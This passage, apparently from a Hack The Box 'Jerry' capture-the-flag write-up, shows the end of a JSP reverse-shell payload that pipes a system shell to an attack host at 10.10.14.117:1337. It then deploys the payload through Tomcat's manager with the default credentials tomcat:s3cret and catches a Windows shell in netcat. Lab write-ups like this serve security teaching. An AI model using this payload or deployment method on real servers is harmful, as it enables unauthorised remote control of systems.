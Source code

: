 ```jsp
      try
      {
        if( nr != null )
          nr.close();
        if( alc != null )
          alc.close();
      } catch( Exception e ){}
    }
  }

  try
  {
    String ShellPath;
    if (System.getProperty("os.name").toLowerCase().indexOf("windows") == -1) {
      ShellPath = new String("/bin/sh");
    } else {
      ShellPath = new String("cmd.exe");
    }

    Socket socket = new Socket( "10.10.14.117", 1337 );
    Process process = Runtime.getRuntime().exec( ShellPath );
    ( new StreamConnector( process.getInputStream(), socket.getOutputStream() ) ).start();
    ( new StreamConnector( socket.getInputStream(), process.getOutputStream() ) ).start();
  } catch( Exception e ) {}
%>
```

With the payload in hand, we can install it as a new application using the
manager app console in Tomcat:

![Tomcat App Upload]({attach}images/hack-the-box-jerry/jerry.htb:8080_manager_html_war_deploy.png)

Clicking "deploy", we see the new app in the list:

![Tomcat App Upload]({attach}images/hack-the-box-jerry/jerry.htb:8080_manager_html_applications_list.png)

Next, we open a port on our attack machine using
[netcat](https://en.wikipedia.org/wiki/Netcat) with `nc -nlvp 1337`. Visiting
the URL for the `reverse.war` binary triggers the reverse shell:

```shell-session
$ curl http://tomcat:s3cret@jerry.htb:8080/reverse/
```

Meanwhile, in our netcat session...

```shell-session
$ nc -nlvp 1337
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.129.24.108.
Ncat: Connection from 10.129.24.108:49194.
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

